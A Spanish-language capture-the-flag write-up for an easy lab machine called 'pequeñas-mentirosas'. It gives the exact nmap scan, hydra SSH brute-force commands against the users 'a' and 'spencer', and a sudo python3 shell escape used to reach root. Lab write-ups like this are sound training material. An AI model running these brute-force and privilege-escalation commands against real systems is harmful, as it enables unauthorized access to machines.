







# Máquina pequeñas-mentirosas

--- 

Dificultad -> Fácil

--- 

Primero realizo un nmpa para ver puertos y servicios

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e:10:58:a5:1a:42:9d:be:e5:19:d1:2e:79:9c:ce:21 (ECDSA)
|_  256 6b:a3:a8:84:e0:33:57:fc:44:49:69:41:7d:d3:c9:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Encuentro los puertos 22 y 80 asi que me conecto desde el navegador



Me encuentro con una web con un unico texto diciendo que encuentre la clave para A

Solo se me ocurre hacer un ataque de fuerza bruta por ssh con el usuario a con hydra

```shell
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -I
```



Encuentro las credenciales del usuario a, asi que me conecto por ssh

Una vez dentro, busco binarios y archivos con permiso SUID pero no encuentro nada vulnerable para escalar permisos



Buscando un poco veo que existe otro usuario llamado spencer



Así que realizo otro ataque de fuerza bruta con hydra con el usuario spencer

```shell
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -I
```



Nuevamente me encuentras las credenciales de spencer asi que me conecto por ssh y busco binarios que pueda ejecutar como root



Veo que puedo ejecutar python3 como root asi que voy a [GTFOBins](https://gtfobins.github.io/) y simplemente ejecuto el siguiente comando y acabamos siendo root

```shell
sudo python3 -c 'import os; os.system("/bin/sh")'
```


